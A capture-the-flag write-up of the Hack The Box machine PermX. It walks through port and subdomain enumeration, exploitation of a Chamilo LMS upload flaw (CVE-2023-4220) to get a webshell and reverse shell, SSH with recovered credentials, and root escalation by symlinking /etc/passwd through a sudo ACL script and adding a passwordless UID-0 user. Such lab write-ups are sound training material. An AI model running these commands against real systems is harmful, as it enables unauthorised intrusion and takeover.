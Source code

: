 ![logo](/logo.png)

# [PermX- BOX]  
Hi folks, today I am going to solve an Hard rated hack the box machine which was released on 06 Jul 2024 machine on HTB,PermX created by [mtzsec](https://app.hackthebox.com/users/1573153) .So without any further intro, let'sf jump in.

# common enumeration

## Nmap
  *http
  *eLearning
  *symbolic
  
###### code-nmap

```code
nmap -sV -sC -oA nmap/permX 10.10.11.23
```

###### Output 

![](/Linux/Linux-Easy/PermX/Screenshots/nmap.png)

```sh
nmap -sV -sC -oA nmap/permX 10.10.11.23                                                                                           ─╯
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-04 18:55 EAT
Nmap scan report for 10.10.11.23
Host is up (0.32s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 e2:5c:5d:8c:47:3e:d8:72:f7:b4:80:03:49:86:6d:ef (ECDSA)
|_  256 1f:41:02:8e:6b:17:18:9c:a0:ac:54:23:e9:71:30:17 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://permx.htb
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: Host: 127.0.0.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 58.95 seconds
```

looking at the results  we find out that there are 2 ports open and its a `Ubuntu`and its running an `Apache server`. And has a hostname `permx.htb`

port[22]-ssh
port[80]-  httpd 2.4.52

so when we go the browser at [http://permx.htb](http://permx.htb) we find an e-learning site for the students 

![](/Linux/Linux-Easy/PermX/Screenshots/browser.png)

looking at the website nothing of interesting is their so i decide to do gobuster to enumerate other directories of the machine.

```sh
gobuster dir -u http://permx.htb -w /usr/share/wordlists/dirb/common.txt -k --no-error
```

nothing of interesting is their so i decide to do fuzz so that i can fuzz for sudmonain available if any that is their.

![](/Linux/Linux-Easy/PermX/Screenshots/gobuster.png)

```sh
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://10.10.11.23 -H "Host:FUZZ.permx.htb" -mc 200,301,307,401,403,405,500
```

![](Linux/Linux-Easy/PermX/Screenshots/subdomain.png)

i find some interesting `subdomain lms`  so lets add it and `www` to the `/etc/hosts` and when i browse to that page i get a collaboration software `Chamilo`

![](/Linux/Linux-Easy/PermX/Screenshots/chamilo.png)

do some search about `chamilo lms 1 exploits` . we found “CVE-2023-4220” **[chamilo-lms-unauthenticated-big-upload-rce-poc](https://github.com/m3m0o/chamilo-lms-unauthenticated-big-upload-rce-poc)** 

first we check if the target is vulnerable

```sh
python3 main.py -u http://lms.permx.htb -a scan
```

![](/Linux/Linux-Easy/PermX/Screenshots/Vulnerable.png)

we can upload a webshell like this 

```sh
python3 main.py -u http://lms.permx.htb -a webshell
```

![](/Linux/Linux-Easy/PermX/Screenshots/webshell.png)

lets now be able to put a revershell.

```sh
python3 main.py -u http://lms.permx.htb -a revshell
```

![](/Linux/Linux-Easy/PermX/Screenshots/revshellexploit.png)

and just like that we get the shell 

![](/Linux/Linux-Easy/PermX/Screenshots/shell.png)

now lets check at the app in `www` to see if i will find  intersting thing or configuration 

![](/Linux/Linux-Easy/PermX/Screenshots/app.png)

looking at the results we find something interesting lets download the `configuration`

![](/Linux/Linux-Easy/PermX/Screenshots/access.png)

so lets try ssh into the box with the user as `mtz`  based on the home directory earlier found 

```sh
ssh mtz@10.10.11.23
```

and we are in

![](/Linux/Linux-Easy/PermX/Screenshots/ssh.png)

and we get the user flag from

![](/Linux/Linux-Easy/PermX/Screenshots/userflag.png)

lets check if their are any privillages or file that we can run without privillages 

```sh
sudo -l
```

![](/Linux/Linux-Easy/PermX/Screenshots/sudol.png)

we find something interesting . The script is used to modify file permissions using Access Control Lists (ACLs)

![](/Linux/Linux-Easy/PermX/Screenshots/ls.png)

let’s try to add new user with root access. link `/etc/passwd`file with any file and give the file read and write permisiion by `acl.sh` script.

lets create a symbolic link `/etc/passwd` by leshack file 

```sh
ln -s /etc/passwd /home/mtz/leshack
sudo /opt/acl.sh mtz rw /home/mtz/leshack
```

![](/Linux/Linux-Easy/PermX/Screenshots/symbolic.png)

so since it is woeking lets edit the file and add a new user. so lets add this to the file 

The line `root:x:0:0:root:/root:/bin/bash` describes the root user account on the system with the following details:

- **Username:** root
- **Password Placeholder:** x (indicating that the actual password is stored in `/etc/shadow`)
- **UID:** 0 (the root user’s unique ID)
- **GID:** 0 (the root user’s primary group ID)
- **User Info:** root (additional information about the user)
- **Home Directory:** /root (the root user’s home directory)
- **Shell:** /bin/bash (the default shell for the root user)

now lets add this to the file now we remove the `x` and use nano to edit the file

```sh
leshack::0:0:leshack:/root:/bin/bash
```

![](/Linux/Linux-Easy/PermX/Screenshots/changeroot.png)

Then we run 

```sh
su leshack
```

we get root access

![](/Linux/Linux-Easy/PermX/Screenshots/root.png)

![](/Linux/Linux-Easy/PermX/Screenshots/rrotflag.png)

	-------------------------END successful attack @lesley----------------------


